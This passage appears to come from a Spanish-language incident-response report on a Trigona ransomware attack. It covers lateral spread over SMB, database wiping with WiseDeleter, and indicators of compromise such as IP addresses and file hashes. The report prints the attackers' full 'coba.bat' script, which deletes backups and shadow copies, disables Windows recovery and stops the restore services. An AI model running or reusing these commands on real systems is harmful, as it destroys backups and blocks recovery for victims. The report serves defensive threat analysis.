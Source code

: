 El ransomware también inició conexiones SMB a otros hosts remotos como los NAS y el controlador del dominio principal y secundario, cifrándolos también.

🗑️ **Borrado de Copias y Bases de Datos tras la Detonación**

**Borrado de Shadow Copies y Deshabilitado Sistema de Recuperación de Windows**

Tras la ejecución del ransomware, el 12 de noviembre de 2023 a las 3:01 los actores de amenazas desplegaron y ejecutaron masivamente un fichero llamado "coba.bat" para el borrado de Shadow Copies y para deshabilitar el sistema de recuperación de Windows.

**coba.bat**

```bat
timeout /t 1 /nobreak
wbadmin delete systemstatebackup -quiet
wbadmin delete backup -quiet
wmic shadowcopy delete
bcdedit /set {default} recoveryenabled no
vssadmin list shadows
timeout /t 1 /nobreak
vssadmin delete shadows /all /quiet
timeout /t 1 /nobreak
net stop "Microsoft Software Shadow Copy Provider"
net stop "Volume Shadow Copy"
net stop "System Restore Service"
```

**Uso de Wise Force Deleter para borrar las bases de datos SQL**

Tras la detonación del ransomware el actor de amenazas también uso "WiseDeleter.exe" de manera manual para borrar la base de datos SQL, la cual no había sido cifrada por el ransomware dado que el servicio SQL estaba levantado e impedía la escritura por parte del ransomware Trigona.


**Detección y IOCs** (Indicadores de Compromiso)

**Direcciones IP**

- 77.83.36.6  
- 193.106.31.98  

**Hashes y archivos relacionados**

- SHA256: feb09cc39b1520d228e9e9274500b8c229016d6fc8018a2bf19aa9d3601492c5  
  - Archivo: disable-defender.exe  
- SHA256: f6440c5cfc1a0bf4fdc63124eef27f40be37af8f46d10aea9a645f5b084004e3  
  - Archivo: defoff.bat  
- SHA256: da0a235cd729d4aa6b209bfe1edefbeeca8fe2ae92d4e3830db7744c9393eadf  
  - Archivo: coba.bat  
- SHA256: 69f245dc5e505d2876e2f2eec87fa565c707e7c391845fa8989c14acabc2d3f6  
  - Archivo: mim.exe  
- SHA256: eeed7ce800a9714b65aaae4f1d61deb83d3f0cbcfd814372807b73c940d4bb8f  
  - Archivo: meshagent.exe  
- SHA256: 4c181562c9a52be9a629522de7d46f04a490b29d673e8a2376e4cb65158c1be6  
  - Archivo: zam.bat  
- SHA256: 18f0898d595ec054d13b02915fb7d3636f65b8e53c0c66b3c7ee3b6fc37d3566  
  - Archivo: netscan.exe  
- SHA256: 1845fe8545b6708e64250b8807f26d095f1875cc1f6159b24c2d0589feb74f0c  
  - Archivo: IObitUnlocker.sys  
